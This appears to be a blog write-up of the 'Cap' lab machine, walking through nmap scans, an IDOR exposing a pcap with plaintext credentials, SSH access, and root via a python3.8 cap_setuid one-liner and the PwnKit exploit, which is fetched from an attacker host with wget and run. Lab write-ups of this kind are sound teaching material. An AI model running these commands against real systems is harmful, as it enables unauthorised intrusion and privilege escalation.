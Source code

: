 ```yaml
---
title: Cap
published: true
layout: post
---
```


<br />

---------------
Cap is an easy difficulty Linux machine running an HTTP server that performs administrative functions including performing network captures. Improper controls result in Insecure Direct Object Reference (IDOR) giving access to another user's capture. The capture contains plaintext credentials and can be used to gain foothold. A Linux capability is then leveraged to escalate to root.

---------------------------------------------------

<br />

## Walkthrough

### Reconnaissance

We will start by **scanning protocolos** in the target machine, this can be divided in 3 phases:
1. Scan for **open ports**
2. Scan for **services** in these open ports
3. Scan for **vulnerabilities** in these services

<br />
Let's start by scanning for **open ports**:

```bash
sudo nmap -sS -sU 10.10.10.245 -p- -T4 --min-rate 5000 -oG all_ports.txt --open -n -Pn
```

![All Ports](/assets/Cap/1.png)
<br />
<br />
<br />

There are **3 open ports**:
+ **21/tcp**
+ **22/tcp**
+ **80/tcp**

<br />
Let's check which **services** are running in these ports:

```bash
sudo nmap -sS 10.10.10.245 -p 21,22,80 -T4 --min-rate 5000 -oX open_ports.xml -oN open_ports.txt --version-all -n -Pn -A -v
```

![Services](/assets/Cap/2.png)
<br />
<br />
<br />

We can see that the services correspond to:
+ **21/tcp vsftpd 3.0.3**
+ **22/tcp OpenSSH 8.2p1**
+ **80/tcp gunicorn**

<br />

Now we will seek for **vulnerabilities**:

```bash
sudo nmap -sS 10.10.10.245 -p 21,22,80 -T4 --min-rate 5000 --script="vuln and safe or intrusive and safe or discovery" -oN vulns.txt -oX vulns.xml -n -Pn -v
```

![Vulnerabilities](/assets/Cap/3.png)
<br />
<br />
<br />

We only detect a **DoS vulnerability** for the **http service**, which is not useful.

<br />

------

<br />
### Foothold

This machine's foothold was too much **CTF-like** for my taste. After investigating for possible vulnerabilities related to the services and its versions, I visited the website, where we are logged in as Nathan.

![Dashboard](/assets/Cap/4.png)
<br />
<br />
<br />

Enumerating the website, we discover **4 pages**:
- **/data**
- **/ip**
- **/netstat**
- **/capture**

<br />

We are interested in the ***/data* and */capture* pages**, these pages interact among them in a particular way. When you click on the menu option ***Security Snapshot (5 Second PCAP + Analysis)***, we are actually going to the */capture* page, this page launch a ``tcpdump`` command for 5 seconds and then redirects us to the */data* page, where we can download a **pcap file** with this data.

<br />

However, this is not exactly what we are interested in. When redirected to the data page, we can see a **number in the URL identifying the capture file**.

![Menu](/assets/Cap/5.png)
<br />
<br />
<br />

The first capture we do starts by number 1, however, we can **modify the URL** to access the **capture 0**, confirming and **IDORs vulnerability**.

![IDOR](/assets/Cap/6.png)
<br />
<br />
<br />

This pcap file contains what we are looking for:

![PCAP](/assets/Cap/7.png)
<br />
<br />
<br />

With the **credentials for the user nathan**, which works for both **ssh and ftp**, we have obtained a foothold in the target machine.

![SSH Connection](/assets/Cap/8.png)
<br />
<br />
<br />

--------------

<br />

### Privilege Escalation

For this machine, I discovered **two ways to escalate privileges**, the conventional one and an alternative one.

<br />
#### Conventional Privilege Escalation

The conventional privilege escalation method works through **capabilities**:

```bash
getcap -r / 2>/dev/null
```

![Capabilities](/assets/Cap/9.png)
<br />
<br />
<br />

The ***python3.8* binary** has the ***cap_setuid* capability** assigned to it, which allows us to **change the UID of a process**. For the privilege escalation we only have to **spawn a shell with an UID of 0**.

```bash
python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

![Capabilities Privesc](/assets/Cap/10.png)
<br />
<br />
<br />

#### Alternative Privilege Escalation

The alternative privilege escalation method works through **CVE-2021-4034**, which is based on giving **SUID permission to an old version of the pkexec binary**:

```bash
find / -perm -4000 -ls 2>/dev/null
```

![SUID](/assets/Cap/11.png)
<br />
<br />
<br />

To exploit this vulnerability I used the [PwnKit](https://github.com/ly4k/PwnKit) created by **ly4k**, we just have to download it in our machine:

```bash
curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit -o PwnKit
sudo python3 -m http.server 80
```
<br />

And then **transfer it to the target machine and run it**:

```bash
wget http://10.10.16.5/PwnKit
chmod +x PwnKit
./PwnKit
```

![SUID Privesc](/assets/Cap/12.png)
<br />
<br />
<br />
